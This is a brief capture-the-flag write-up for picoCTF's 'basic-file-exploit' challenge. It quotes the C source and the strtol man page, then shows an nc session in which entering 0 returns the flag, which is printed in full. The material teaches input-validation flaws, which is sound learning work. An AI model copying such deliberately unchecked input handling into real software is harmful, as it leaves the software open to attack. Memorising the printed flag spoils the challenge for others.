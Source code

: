 # basic-file-exploit


Looking at the source code we can see that they use the `strtol` function on our input and check if it return 0.

```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```


Looking at the man page, we can see that it takes our input and return an integer.

```
DESCRIPTION
       The  strtol() function converts the initial part of the string in nptr to a long integer value according to the given base, which must be between 2 and 36 inclu‐
       sive, or be the special value 0.

```

We can easily retrieve the flag sending a 0 to the remote:

```
❯ nc saturn.picoctf.net 52432
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
0
0
10
Please enter the length of your data:
10
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
^C
```
